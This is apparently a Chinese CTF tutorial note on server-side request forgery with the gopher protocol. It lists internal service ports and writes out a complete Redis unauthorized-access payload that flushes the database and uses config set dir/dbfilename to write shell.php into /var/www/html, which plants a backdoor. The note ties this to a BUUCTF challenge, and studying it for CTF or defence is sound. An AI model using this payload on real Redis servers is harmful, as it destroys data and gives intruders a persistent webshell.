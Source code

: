 ```yaml
---
title: 【WEB】ssrf gopher协议
---
```

# Gopher 协议

在 http 出现之前，访问网页需要输入的是 

gopher://gopher.baidu.com/ 

而不是

https://www.baidu.com/

而它被代替的原因一方面是收费，另一方面的原因是它固化的结构没有HTML网页灵活

利用 gopher 的方式有 FTP 爆破，REDIS，MYSQL，FAST CGI，XXE



## 一些常用服务

Redis	6379

FPM	  9000

Smtp	 25

Mysql	3306

常用的协议

dict 、gopher

以下为经典的 Redis 未授权访问，以及常用 payload 的生成



## 利用方式

比如常见的，web 有一个 curl 的功能，然后可以访问内网靶机，就可以用类似的方式进行命令传递

( payload 每经过一次传递就会被解码一次 )

redis

![3](/images/ssrf-gopher/3.png)

Smtp 生成 payload

![1](/images/ssrf-gopher/1.png)

Fpm 生成 payload

![2](/images/ssrf-gopher/2.png)

gopher支持多行。因此要在传输的数据前加一个无用字符。比如 gopher://ip:port/_ 通常用 _ 并不是只能用 _ ，gopher协议会吃掉第一个字符



## 关于 redis

redis 的格式：每一个 *number 代表每一行命令，number 代表每行命令中数组中的元素个数。$number 代表每个元素的长度。

URL解码后可以看到创建 shell 的完整流程

```gopher://127.0.0.1:6379/_*1
$8							//元素长度为8
flushall
*3							//3个元素
$3
set
$1
1
$31

<?php echo "hello world" ?>

*4
$6
config
$3
set
$3
dir
$13
/var/www/html
*4
$6
config
$3
set
$10
dbfilename
$9
shell.php
*1
$4
save
```

即为redis将输入的语句保存在指定位置的php文件中，生成后门



## 相关环境：

BUUCTF[GKCTF_EZWEB]